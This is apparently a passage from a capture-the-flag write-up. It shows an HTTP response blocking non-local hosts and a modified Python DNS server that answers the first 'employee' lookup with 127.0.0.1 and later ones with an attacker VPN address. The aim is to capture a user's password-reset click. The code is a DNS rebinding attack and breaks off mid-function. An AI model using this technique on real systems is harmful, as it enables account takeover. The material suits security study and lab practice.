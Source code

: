```
HTTP/1.1 200 OK
...[snip]...
<body>
<div class="alert alert-danger alert-dismissible fade show" role="alert">Only local hosts are allowed.<button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button></div>
        <div class="limiter">
...[snip]...
```

Modifying this [python dns server](https://gist.githubusercontent.com/pklaus/b5a7876d4d2cf7271873/raw/cb089513b185f4128d956eef6e0fb9f5fd583e41/ddnsserver.py), to send the first lookup request containing "employee" to `127.0.0.1` and the next one to our vpn ip, we try the same from above again, but this time listening on port 80 to possibly capture david clicking on the password reset.

`dns_spoof.py`
```py
#!/usr/bin/env python
# coding=utf-8

import argparse
import datetime
import sys
import time
import threading
import traceback
import socketserver
import struct
try:
    from dnslib import *
except ImportError:
    print("Missing dependency dnslib: <https://pypi.python.org/pypi/dnslib>. Please install it with `pip`.")
    sys.exit(2)

a = 1
class DomainName(str):
    def __getattr__(self, item):
        return DomainName(item + '.' + self)

def dns_response(data):
    request = DNSRecord.parse(data)

    print(request)

    reply = DNSRecord(DNSHeader(id=request.header.id, qr=1, aa=1, ra=1), q=request.q)

    qname = request.q.qname
    qn = str(qname)
    qtype = request.q.qtype
    qt = QTYPE[qtype]
    if qn != "":
        D = DomainName(qn)
    IP = '10.10.14.65'
    TTL = 600
    global a
    if "employee" in qn and a > 1:
        IP = '10.10.14.65'
        a += 1
    elif "employee" in qn:
        a += 1
        TTL = 10
        IP = '127.0.0.1'

```